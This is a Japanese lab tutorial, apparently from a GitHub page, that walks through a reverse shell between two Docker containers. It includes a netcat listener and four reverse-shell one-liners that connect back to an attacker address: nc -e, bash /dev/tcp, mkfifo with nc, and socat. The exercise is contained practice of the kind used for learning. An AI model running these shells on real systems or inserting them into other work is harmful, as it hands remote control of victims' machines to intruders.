 ## リバースシェル
- 攻撃側のOSを待ち受けにして、ターゲット側のOSからシェルで接続する

## 内容
- Dockerで２つのコンテナを立ち上げる、攻撃側をParrotとしてターゲット側をhamとする。hamに事前にrootflag.txtを作っておいて、Parrotから見る

## 準備
- ターミナルを２つ立ち上げて、各々にコンテナを立ち上げる
- `docker container run --rm -it --name コンテナ名 --net kali-wordpress kali /bin/bash`

### Parrot側
- 左側のターミナルをParrotとして、ipアドレスを確認する
- Parrot側でシェルを待ち受ける。ポートは444を解放する、ポートが被っていなければ何でもいい
- `nc -nlvp 444`
  - n 名前解決しない
  - l Listenの略で待ち受けモード
  - v verbose
  - p ポート番号の指定 

### ham側
- 右側のターミナルをhamとする
- Parrot側のipアドレスを環境変数に登録する
- flagを作る
- `echo "unko` > /root/flag.txt


## ham側からリバースシェルを仕掛ける
- sessionが確立したら、対話型シェルにしてflag.txtを見る
- 実践では次の4つのどれか使えるものを使う、ターゲット側にインストールされていないコマンドがあるため
- netcatには2種類あって、traditionalとopenBSDがあるがopenBSDモデルには`-e`オプションがない
- ncコマンドはハッキングコマンドと認知されており、Windowsではウィルスと判定されるのでインストールできない
### (1) ncコマンド
- `nc $IP 444 -e /bin/bash`
### (2) bashコマンド
- `/bin/bash -i >& /dev/tcp/$IP/444 0>&1`
  - `>& ファイル` 標準出力、標準エラー出力を送信する 
- または
- `/bin/bash  -i /dev/tcp/$IP/444 0<&1 2>&1`
### (3) mkfifoコマンド
- `rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe | /bin/bash -i 2>&1|nc $IP 444 > /tmp/pipe`

### (4) socat
- 待受(これは待受にncコマンドを使わない)
- ``socat file:`tty`,raw,echo=0 tcp-listen:444``
- 送信
- `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$IP:444`
